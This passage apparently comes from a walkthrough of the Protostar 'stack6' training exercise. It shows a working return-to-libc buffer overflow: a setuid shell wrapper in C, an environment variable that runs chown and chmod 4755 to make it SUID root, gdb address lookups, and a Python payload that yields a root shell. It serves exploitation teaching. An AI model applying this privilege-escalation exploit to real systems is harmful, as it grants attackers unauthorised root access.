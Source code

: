 A far simpler method is to have our exploit set the SUID bit on a binary that
calls `/bin/bash`. First, we write our `shell.c`.

```c
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv, char **envp) {
  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/bin/bash");
}
```

Next, we compile it.

```shell
user@protostar:~$ gcc shell.c -o shell
```

We set the environmental variable `SHELLME` to the shell command we want to
execute. In this case, we will set the owner of `/home/user/shell` to root and
give it the SUID bit.

```
user@protostar:~$ export SHELLME="/bin/chown root:root /home/user/shell; /bin/chmod 4755 /home/user/shell"
user@protostar:~$ ./getenv SHELLME /opt/protostar/bin/stack6
SHELLME will be at 0xbfffff16
```

Remember the "return address" bit of the stack from earlier? That is where our
program will jump to after `system()` is done. While it has no bearing on
successful exploitation, we can set it to the `exit()` function to exit
cleanly.

```
(gdb) print exit
$1 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
```

Putting it all together, we end up with a working exploit.

```shell
user@protostar:~$ python -c "print 'A' * 80 + '\xb0\xff\xec\xb7' + '\xc0\x60\xec\xb7' + '\x16\xff\xff\xbf'" | /opt/protostar/bin/stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`
user@protostar:~$ ./shell
root@protostar:~# whoami
root
```
